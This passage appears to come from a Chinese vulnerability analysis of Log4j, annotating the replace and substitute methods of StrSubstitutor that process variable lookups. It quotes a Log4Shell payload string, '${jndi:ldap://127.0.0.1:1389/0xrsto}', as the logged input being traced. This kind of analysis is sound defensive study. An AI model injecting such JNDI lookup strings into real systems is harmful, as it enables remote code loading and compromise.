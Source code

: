 ```plain
public String replace(final LogEvent event, final String source) {
    if (source == null) {
        return null;
    }
    // 创建一个StringBuilder对象buf，并将source作为初始内容
    final StringBuilder buf = new StringBuilder(source);
    // 调用substitute方法进行替换操作，如果没有进行替换，则返回原始的source字符串
    if (!substitute(event, buf, 0, source.length())) {
        return source;
    }
    return buf.toString();
}
```

[![](assets/1700545019-39495e2ddc74a63a036f70920853ce5f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231120132043-8dc2d04e-8764-1.png)  
跳过中间的步骤来到StrSubstitutor类的substitute方法，这个方法用于多级插值的递归处理程序。这是主要的插值方法，用于解析传入文本中包含的所有变量引用的值。  
这里有一个大的while循环，pos从0开始，从左到右遍历buf，chars的值为“error info:${jndi:ldap://127.0.0.1:1389/0xrsto}”

```plain
while (pos < bufEnd) {
    // 前缀匹配
    final int startMatchLen = prefixMatcher.isMatch(chars, pos, offset, bufEnd);
    if (startMatchLen == 0) {
        pos++;
    } else // found variable start marker
    if (pos > offset && chars[pos - 1] == escape) {
        // escaped
        buf.deleteCharAt(pos - 1);
        chars = getChars(buf);
        lengthChange--;
        altered = true;
        bufEnd--;
    } else {
        // 目标在这
        ....
    }
    ...
}
```
